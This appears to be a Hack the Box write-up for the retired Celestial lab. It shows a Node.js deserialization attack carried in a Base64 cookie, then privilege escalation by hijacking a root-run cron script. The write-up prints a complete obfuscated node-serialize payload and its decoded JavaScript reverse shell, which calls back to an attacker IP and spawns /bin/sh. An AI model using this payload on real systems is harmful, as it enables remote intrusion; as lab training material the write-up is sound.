


Title: Celestial - Hack the Box
Date: 2018-12-04
Modified: 2020-02-05
Category: ctf
Tags: ctf, hack the box
Slug: htb-celestial
Authors: Riley
Summary: Guide to Celestial from Hack the Box, featuring a Node.js deserialization attack.

## Preamble

The original writeup I did for this was some time ago. My methodology then didn't include nearly as many images, and the box has been retired since August 2018.  <s>If I had the option to redo this with better notes and images to create a better product here, I absolutley would.</s>

Edit 2020-02-05:  I will be redoing this box sometime in the future.

## Description

The attack path for Celestial involves a deserialization attack against the hosted Node.js Express server, followed by some automated script hijacking.

Celestial's lab IP is `10.10.10.85`.

## Reconnaissance

The first thing I did was perform a scan of the host to determine what services were open, finding that only HTTP on port `3000` was available, which appeared to be a Node.js Express application.

Investigating the web page, the first thing display was a 404 error, but reloading the webpage revealed a different response, with the text __Hey Dummy, 2 + 2 = 22__.

Proxying my traffic through Burp suite revealed a base64 encoded cookie, with attributes including __username__, __country__, __city__, and __num__. Some research revealed that this Node.js application may be susceptible to a deserialization attack.

After some experimentation, I successfully generated a payload that would exploit the vulnerability.

#### Poisoned cookie, from Base64 with encoded JS shellcode

```json
{"username":"Dummy","rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,49,48,54,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,10,32,32,32,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,10,32,32,32,32,32,32,32,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,10,32,32,32,32,125,59,10,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10)) ;\n }()"}
```

#### JS shellcode, decoded from Base10 CharCode
```javascript
var net = require('net');
var spawn = require('child_process').spawn;
HOST="10.10.14.106";
PORT="1337";
TIMEOUT="5000";
if (typeof String.prototype.contains === 'undefined') {
    String.prototype.contains = function(it) {
        return this.indexOf(it) != -1;
    };
}
function c(HOST,PORT) {
    var client = new net.Socket();
    client.connect(PORT, HOST, function() {
        var sh = spawn('/bin/sh',[]);
        client.write("Connected!\n");
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
        sh.on('exit',function(code,signal){
          client.end("Disconnected!\n");
        });
    });
    client.on('error', function(e) {
        setTimeout(c(HOST,PORT), TIMEOUT);
    });
}
c(HOST,PORT);
```

After replacing my original cookie with the Base64 encoded tampered cookie, I got a reverse shell and the user flag.



## Privilege Escalation

Now I have access to the box as user `sun`, who is part of the `sudo` users group.  I did not attempt to see if there were any alternate paths.

Of immediate interest was the file output.txt which has a creation time within the last 5- or 10-minute time increment and the contents `Script is running....`.

After some observation, the creation time increments every 5 minutes exactly, indicating an automated process. The contents of the file match the contents of the `echo "Script is running..."` line from a file called `script.py` under the `Documents/` directory. Modifying the script to output a different string also modified the output files contents.

I created a Python reverse shell and placed my code into script.py and set a listener on Kali. At the next 5-minute mark, my code executed and gave me another reverse shell and the root flag.

